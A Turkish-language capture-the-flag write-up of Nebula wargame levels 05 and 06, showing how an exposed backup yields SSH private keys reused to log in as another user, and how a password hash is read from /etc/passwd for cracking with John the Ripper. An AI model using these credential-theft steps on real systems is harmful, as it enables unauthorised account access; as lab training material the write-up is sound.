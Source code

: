 ```yaml
---
layout: post
title: "Nebula Write Up-2"
date: 2018-02-28
excerpt: "[Level 05-Level 09]"
comments: false
---
```

### Level 05

/home/flag05 dizininde, izinleri hatalı olabilecek olan bir dizin arıyoruz. 
{% raw %}
    level05@nebula:/home/flag05$ ls -al
    total 5
    drwxr-x--- 1 flag05 level05  100 2012-08-18 03:22 .
    drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
    drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
    -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
    -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
    -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
    drwx------ 1 flag05 flag05   100 2011-11-20 03:07 .ssh
{% endraw %}
Dikkatimizi çeken .ssh ve .backup dizinleri. Fakat .ssh dizininin izinleri olması gerektiği gibi. .backup dizinini kurcalamaya devam ediyoruz.
> Bir dizin için ls komutunu kullanabilmek için  okuma(r) , cd komutunu kullanabilmek için çalıştırma(x) iznimizin bulunması gerekir.
{% raw %}
    level05@nebula:/home/flag05$ cd .backup
    level05@nebula:/home/flag05/.backup$
    drwxr-x--- 1 flag05 flag05    100  2011-11-20 03:22 .
    drwxr-xr-x 1 flag05 level05    80  2012-08-18 07:18 ..
    -rw-rw-r-- 1 flag05 flag05   1826  2011-11-20 20:13 backup-19072011.tgz
{% endraw %}
Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde açamıyoruz. 
{% raw %}
    level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
    level05@nebula:/home/flag05/.backup$ cd /tmp
    level05@nebula:/tmp$ ls -l
    -rw-rw-r-- 1 level05 level05   1826  2011-11-20 20:13 backup-19072011.tgz
    level05@nebula:/tmp$ tar -xvf backup-19072011.tgz
    .ssh/
    .ssh/id_rsa.pub
    .ssh/id_rsa
    .ssh/authorized_keys
{% endraw %}
flag05 kullanıcısının home dizininde bulunan ssh dizini, tar dosyasından çıkan anahtarları kullanarak ssh bağlantısı yapabileceğimiz fikrini veriyor.Ayrıca level05 kullanıcısının home dizinine baktığımızda halihazırda bir ssh dizini olduğunu görüyoruz.
Tar dosyasından çıkan anahtarların hangi kullanıcı tarafından oluşturulduğunu bilmediğimiz için anahtarların tamamını level05 kullanıcısının ssh dizinine kopyalıyoruz.
{% raw %}
    level05@nebula:/tmp$ cp .ssh/* /home/level05/.ssh
    level05@nebula:/tmp$ ssh flag05@nebula
    The authenticity of host 'nebula (127.0.1.1)' can't be established.  
    ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.  
    Are you sure you want to continue connecting (yes/no)? yes  
    Warning: Permanently added 'nebula' (ECDSA) to the list of known hosts.

          _   __     __          __
         / | / /__  / /_  __  __/ /___ _
        /  |/ / _ \/ __ \/ / / / / __ `/
      / /|  /  __/ /_/ / /_/ / / /_/ /
      /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula

    For level descriptions, please see the above URL.

    To log in, use the username of "levelXX" and password "levelXX", where  
    XX is the level number.

    Currently there are 20 levels (00 - 19).

    Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

    * Documentation:  https://help.ubuntu.com/
    Your Ubuntu release is not supported anymore.  
    For upgrade information, please visit:  
    http://www.ubuntu.com/releaseendoflife

    New release '12.04.3 LTS' available.  
    Run 'do-release-upgrade' to upgrade to it.

    The programs included with the Ubuntu system are free software;  
    the exact distribution terms for each program are described in the  
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
    applicable law.

    flag05@nebula:~$ /bin/getflag  
    You have successfully executed getflag on a target account  
{% endraw %}
### Level 06
flag06 kullanıcına ait bilgilerin eski bir unix sistemden geldiği bilgisi verilmiş. Credentials kelimesi ilk olarak /etc/passwd ve /etc/shadow dosyalarını hatırlatıyor. Fakat /etc/shadow dosyasını okumak için gerekli izinlerimiz bulunmadığı için /etc/passwd dosyasını kurcalıyoruz.
{% raw %}
    level06@nebula:~$ cat /etc/passwd | grep flag06
    flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{% endraw %}
> /etc/passwd dosyası tüm kullanıcılar tarafından okunabildiği için, şifrelenmiş parolalar bu dosyada gösterilmez.Bunun yerine x ile temsil edilir. Parolalar şifrelenmiş bile olsa parola-kırma araçlarıyla bu parolaları kırmak mümkün olabilir.
Burda ise şifrelenmişde olsa flag06 kullanıcısına ait parola, tüm kullanıcılar tarafından okunabilir olan /etc/passwd dosyasında gösterilmiş. 
> John The Ripper en çok bilinen parola kırma araçlarından biridir.Kali Linux, Parrot gibi güvenlik dağıtımlarında hazır olarak bulunmaktadır.
<figure class="third">
	<img src="/assets/img/xx.png">
</figure>

